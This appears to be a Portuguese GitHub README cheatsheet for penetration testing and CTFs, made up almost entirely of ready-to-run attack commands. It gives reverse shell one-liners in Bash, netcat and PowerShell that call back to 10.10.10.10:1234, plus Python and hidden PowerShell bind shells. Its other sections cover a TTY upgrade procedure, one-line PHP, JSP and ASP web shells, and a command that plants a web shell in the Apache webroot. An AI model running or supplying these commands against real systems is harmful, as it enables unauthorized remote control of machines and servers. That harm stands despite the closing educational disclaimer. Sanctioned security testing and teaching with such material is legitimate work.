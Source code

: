 # 🐚 Cheatsheet: Reverse Shells, Bind Shells & TTY

Este repositório traz um conjunto prático de comandos úteis para obtenção de shells remotas durante testes de penetração, exploração ou CTFs.

https://reverse-shell.sh/

---

## 📡 Reverse Shell

Um *reverse shell* é quando a máquina alvo se conecta de volta ao nosso host, nos fornecendo uma shell remota.

- Bash: `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`
- Netcat + FIFO: `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.10.10 1234 >/tmp/f`
- PowerShell: `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"`

---

## 🔗 Bind Shell

Um *bind shell* escuta conexões em uma porta específica da máquina alvo. Diferente do reverse shell, **nós nos conectamos ao alvo**.

- Bash: `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -lvp 1234 >/tmp/f`
- Python: `python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();while True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`
- PowerShell: `powershell -NoP -NonI -W Hidden -Exec Bypass -Command "$listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + ' ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

---

## 🖥️ TTY Shell Upgrade

Use isso para obter uma shell mais interativa (ex: com tab-completion e atalhos funcionais):

1. Use: `python -c 'import pty; pty.spawn("/bin/bash")'`
2. Coloque a shell em segundo plano com `CTRL + Z`
3. No seu terminal local, digite: `stty raw -echo`
4. Volte para a shell com `fg` e pressione `Enter` duas vezes
5. A shell agora está interativa!

Podemos notar que nosso shell não cobre todo o terminal. Para corrigir isso, precisamos descobrir algumas variáveis. Podemos abrir outra janela de terminal em nosso sistema, maximizar as janelas ou usar qualquer tamanho que quisermos e, em seguida, inserir os seguintes comandos para obter nossas variáveis:

- Gust4vo@htb[/htb]$ echo $TERM xterm-256color
- Gust4vo@htb[/htb]$ stty size 67 318



---

## ℹ️ Notas

- Substitua `10.10.10.10` pelo seu IP local
- Altere a porta `1234` conforme necessário
- Para escutar conexões, use: `nc -lvnp 1234`

---

## 🌐 Web Shell

A *Web Shell* normalmente é um script web, ou seja., PHP ou ASPX, que aceita nosso comando através de parâmetros de solicitação HTTP, tais como GET ou POST solicitar parâmetros, executa nosso comando e imprime sua saída de volta na página da web.

- php: `<?php system($_REQUEST["cmd"]); ?>`
- jsp: `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
- asp: `<% eval request("cmd") %>`

Uma vez que temos o nosso shell web, precisamos colocar o nosso script shell web no diretório web do host remoto (webroot) para executar o script através do navegador web.

![image](https://github.com/user-attachments/assets/673c3f82-0817-422c-82f3-6307de7a63bf)

Se fosse um Linux executando Apache por exemplo seria `echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php`, e podemos acessar a web shell pela URL e pelo curl.

curl "http://example.com/shell.php?cmd=whoami"

---


> ⚠️ **Aviso legal:** Todos os comandos aqui têm propósito educacional e devem ser utilizados somente em ambientes controlados ou com permissão explícita.
